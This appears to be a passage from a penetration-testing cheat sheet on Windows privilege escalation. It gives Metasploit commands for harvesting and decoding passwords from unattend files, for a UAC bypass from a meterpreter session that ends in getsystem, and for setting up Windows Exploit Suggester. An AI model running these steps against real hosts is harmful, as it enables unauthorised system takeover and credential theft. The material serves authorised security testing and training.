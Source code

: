 Passwords in these files may be base64 encoded, [decode them here](https://gchq.github.io/CyberChef/) or in [Burp Decoder](http://www.hackingarticles.in/burpsuite-encoder-decoder-tutorial/).

And if you're lazy, a Metasploit module: `post/windows/gather/enum_unattend`

## BypassUAC Metasploit module

If you have a meterpreter shell and `getsystem` isn't working, you can try this method, which uses the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.

First background your meterpreter session:

```text
background
```

Then set the UAC bypass module:

```text
use exploit/windows/local/bypassuac
```

Set the session ID and the listening host IP:

```text
set session [Session ID]
set lhost [attacking host]
run
```

This will spawn a second shell with UAC disabled, which might help you get `NT/AUTHORITY\SYSTEM`

```text
getsystem
```

## Scripts

### Windows Exploit Suggester

Windows Exploit Suggester is a tool to identify missing patches and associated exploits on a Windows host. It uses the output of `systeminfo` and compares it against the Microsoft vulnerability database, which is automatically downloaded and stores as a spreadsheet. Based on the output, the tool lists public exploits \(E\) and Metasploit modules \(M\).

If you don't have it, you can clone the git repository:

```text
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

You may need to install the python-xlrd dependency for parsing Excel spreadsheets:

```text
apt-get update
apt-get install python-xlrd
```
